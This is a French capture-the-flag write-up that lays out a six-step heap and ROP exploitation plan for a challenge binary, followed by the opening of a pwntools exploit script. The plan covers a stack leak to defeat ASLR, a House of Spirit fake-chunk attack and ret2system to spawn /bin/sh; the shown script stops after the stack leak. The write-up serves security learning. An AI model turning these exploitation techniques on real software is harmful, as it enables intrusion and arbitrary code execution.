 ## Le plan

Notre plan se déroulera en 6 étapes :

1) On  entre une phrase badass d'exactement 64 caractères. Le leak du pointeur présent sur la stack nous permettra de connaître  le décalage appliqué par l'ASLR sur la stack.

2) On crée un nouveau combo  de 104 coups

3) On exécute notre combo et on accepte de le modifier lorsque le programme nous le demande. On forge 2 faux chunk dans notre buffer à partir de l'index 160 (en précisant leur taille comme 0x111). On exploite ensuite le buffer underflow afin d'écraser la valeur du pointeur qui sera passé à `free` par l'adresse de notre premier faux chunk. Ainsi, lorsque notre nouvelle struct sera créée, `malloc` retournera l'addresse d'un chunk sous notre contrôle (House of Spirit). Et il se trouve que dans ce nouveau chunk se trouveront le canary et l'adresse de retour de la fonction ;)

4) On écrit à partir de l'index 104 dans notre buffer une ropchain de type ret2plt, ret2main afin deconnaître le décalage appliqué par l'ASLR sur les librairies importées. Notez qu'à aucun moment nous ne touchons au canary.

5) On calcule à partir du leak l'adresse à laquelle se trouvent la fonction `system` et la chaîne `/bin/sh`.

6) On refait la même chose, mais ce coup-ci en écrivant une ropchain de type ret2system.

```python
from pwn import *

context.binary = "./resources/challenge"
elf = ELF("./resources/challenge")
libc = ELF("./resources/libc.so.6")
p = remote("0.0.0.0", 1337)

# Stack variables
leak_stack_no_aslr = 0x7fffffffda30 # Adress was taken in pwndbg without cleaning env variables
leak_return_address = 0x7fffffffda08
house_of_spirit_address = 0x7fffffffd990 + 16

# Fake heap fast chunks
fake_chunk_0 = [p64(0x111), p64(0x111), b"\x00\x00\x00\x00\x00\x00\x00\x00", b"\x00\x00\x00\x00\x00\x00\x00\x00", b"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"]
fake_chunk_1 = [p64(0x111), p64(0x111), b"\x00\x00\x00\x00\x00\x00\x00\x00", b"\x00\x00\x00\x00\x00\x00\x00\x00", b"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"]
fake_chunks = list(b"".join(fake_chunk_0 + fake_chunk_1))



# Leak stack ASLR
log.info("[+] Leaking stack ASLR")
p.recvuntil(b">")
p.sendline(b"3")
p.recvuntil(b"e :")
p.send(b"A" * 64)
p.recv()
data = p.recv()[96:96+6]
print(data)
leak_stack_aslr = u64(data + b"\x00\x00")
stack_offset = leak_stack_no_aslr - leak_stack_aslr
leak_return_address -= stack_offset
house_of_spirit_address -= stack_offset
print("[+] Stack offset :", hex(stack_offset))

# Create a combo
log.info("[+] Creating new combo")
```